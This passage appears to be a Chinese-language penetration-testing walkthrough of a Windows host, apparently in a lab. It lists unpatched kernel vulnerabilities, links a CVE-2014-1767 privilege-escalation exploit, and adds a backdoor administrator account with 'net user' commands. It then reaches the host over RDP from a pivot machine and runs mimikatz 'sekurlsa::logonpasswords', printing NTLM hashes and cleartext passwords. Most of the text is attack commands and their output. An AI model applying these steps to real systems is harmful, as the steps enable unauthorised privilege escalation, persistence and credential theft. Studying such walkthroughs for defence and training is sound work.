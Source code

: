 ```bash
MS15-051 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-win32k.sys)
MS14-070 patch is NOT installed 2K3/SP2-TCP/IP)
MS13-005 patch is NOT installed Vista,7,8,2008,2008R2,2012,RT-hwnd_broadcast)
MS13-053 patch is NOT installed 7SP0/SP1_x86-schlamperei)
MS13-081 patch is NOT installed 7SP0/SP1_x86-track_popup_menu)
```

我选用`ms14-040`来进行提权 https://github.com/Al1ex/WindowsElevation/tree/master/CVE-2014-1767

传入提权程序并运行

成功提权

![image-20231018142348454](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018142348454.png)

加个用户，进行rdp

```bash
net user Ki1ro 1qaz!QAZ /add
net localgroup administrators Ki1ro 1qaz!QAZ /add
```

啊这，似乎连接不了

![image-20231018142829642](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018142829642.png)

看来还是必须到`192.168.12.55`上进行远程连接了

成功连接

![image-20231018143229937](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018143229937.png)

传入猕猴桃去找密码哈希

```bash
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"
```

```bash
Authentication Id : 0 ; 4516974 (00000000:0044ec6e)
Session           : RemoteInteractive from 3
User Name         : Ki1ro
Domain            : USER1
Logon Server      : USER1
Logon Time        : 10/18/2023 7:30:52 AM
SID               : S-1-5-21-3613474580-947545296-4165619081-1003
	msv :	
	 [00000003] Primary
	 * Username : Ki1ro
	 * Domain   : USER1
	 * LM       : 869f545b7f4e423a1d91a081d4b37861
	 * NTLM     : bc007082d32777855e253fd4defe70ee
	 * SHA1     : c44e77aa5d3caed6ca7e9e59f553fe64ce4000d2
	tspkg :	
	 * Username : Ki1ro
	 * Domain   : USER1
	 * Password : 1qaz!QAZ
	wdigest :	
	 * Username : Ki1ro
	 * Domain   : USER1
	 * Password : 1qaz!QAZ
	kerberos :	
	 * Username : Ki1ro
	 * Domain   : USER1
	 * Password : 1qaz!QAZ
	ssp :	
	credman :	

```
